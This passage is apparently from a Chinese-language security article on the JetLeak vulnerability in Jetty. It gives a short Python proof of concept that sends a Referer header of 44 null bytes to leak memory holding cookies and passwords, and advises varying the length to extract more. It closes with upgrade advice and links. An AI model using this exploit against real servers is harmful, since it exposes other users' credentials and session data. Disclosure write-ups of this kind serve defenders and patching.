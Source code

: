 * * *

之后，攻击者用一个简单的python脚本，在header中插入44个空字节，这回导致异常的触发，需要注意的是，搞清楚多少个字节才能覆盖到敏感数据是一个反复的过程，建议先通过较小的字符串，不断加大，如果一开始选择较大的字符串可能会覆盖一些敏感数据。

    
    
    #!python
    import httplib, urllib
    
    conn = httplib.HTTPConnection("127.0.0.1:8080")
    
    headers = {"Referer": chr(0)*44}
    conn.request("POST", "/test-spec/test", "", headers)
    r1 = conn.getresponse()
    print r1.status, r1.reason
    

## Step 3: ##

* * *

一旦运行上面的python脚本，那么攻击者就会收到如图中所示的错误信息，请注意其中包含的cookie和密码，如果你想要大于16个字节的数据，那么修改下长度多跑几次就好了。

![enter image description
here](http://static.wooyun.org/drops/20150226/201502260445309952013.png)

![enter image description
here](http://static.wooyun.org/drops/20150226/2015022604460973210111.png)

# 0x04 结语和修复建议 #

* * *

如果你不幸运行着存在漏洞版本的jetty，那么官方的建议是立即更新到version 9.2.9.v20150224。
这里有一份jetty的客户名单，我就不说我看到阿里了。

http://eclipse.org/jetty/powered/

如果需要进行版本更新可以通过以下地址

Maven - http://central.maven.org/

Jetty Downloads Page - http://download.eclipse.org/jetty

这里是原文：http://blog.gdssecurity.com/labs/2015/2/25/jetleak-vulnerability-remote-
leakage-of-shared-buffers-in-je.html

我省略了修复建议中的一些细节还有漏洞披露的时间表，具体可以参考原文。


